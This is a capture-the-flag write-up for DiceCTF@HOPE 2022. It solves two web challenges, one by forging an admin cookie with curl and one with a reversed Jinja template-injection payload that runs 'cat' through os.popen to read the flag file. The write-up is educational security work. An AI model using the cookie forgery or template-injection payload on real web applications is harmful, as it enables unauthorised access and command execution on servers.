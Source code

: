 ```yaml
---
title: "DiceCTF@HOPE"
date: 2022-07-25T01:38:39+09:00
tags: ["DiceCTF", "web", "rev", "misc"]
draft: false
---
```


# Challenges
## [web]secure-page
```python
...
    if admin == '':
        headers['set-cookie'] = 'admin=false'

    if admin == 'true':
        return (200, '''
            <title>Secure Page</title>
            <link rel="stylesheet" href="/style.css" />
            <div class="container">
                <h1>Secure Page</h1>
                %s
            </div>
        ''' % os.environ.get('FLAG', 'flag is missing!'), headers)
...
```
Just set `Cookie: admin=true` in the Header and send request.

```none
curl -H 'Cookie: admin=true' https://secure-page.mc.ax
hope{signatures_signatures_signatures}
```

## [web]reverser
Template Injection is likely to occur at the following.
```python
@app.post('/')
def reverse():
...
    output = request.form.get('text', '')[::-1]
    return render_template_string(result % output)
```

Also, note that `output` is reversed and then write payload.

```python
i = "{{url_for.__globals__.os.popen('cat flag-f5953883-3dae-4a0f-9660-d00b50ff4012.txt').read()}}"
print(i[::-1])
# => }})(daer.)'txt.2104ff05b00d-0669-f0a4-ead3-3883595f-galf tac'(nepop.so.__slabolg__.rof_lru{{
```
